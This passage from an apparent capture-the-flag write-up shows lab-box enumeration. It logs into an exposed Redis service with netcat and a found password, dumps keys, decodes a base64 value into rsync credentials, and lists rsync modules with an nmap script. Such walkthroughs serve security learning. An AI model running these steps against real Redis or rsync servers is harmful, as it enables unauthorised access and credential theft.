 ## Redis
With our password we can do this:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vninternal]
└─# nc 10.10.247.87 6379
AUTH B65Hx562F@ggAZ@F
+OK
KEYS *
*5
$8
authlist
$10
marketlist
$13
internal flag
$3
int
$3
tmp
lrange authlist 0 10
*4
$112
QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==
{% endhighlight %}

Note that there was a flag there too, so get that if you want. **authlist** was a list, hence the *lrange* command. You can use redis-cli but you don't need to. What is the base64?

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vninternal]
└─# echo 'QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==' | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
{% endhighlight %}

Creds for rsync.

## rsync
**rsync** is running on Port 873 and we can't use our creds for SSH. When running like this we need to know the 'module' name, so I use an nmap script:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vninternal]
└─# nmap -p 873 --script rsync-list-modules 10.10.247.87                                  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-06 07:26 EDT
Nmap scan report for 10.10.247.87
Host is up (0.32s latency).

PORT    STATE SERVICE
873/tcp open  rsync
| rsync-list-modules: 
|_  files               Necessary home interaction

Nmap done: 1 IP address (1 host up) scanned in 2.99 seconds
{% endhighlight %}
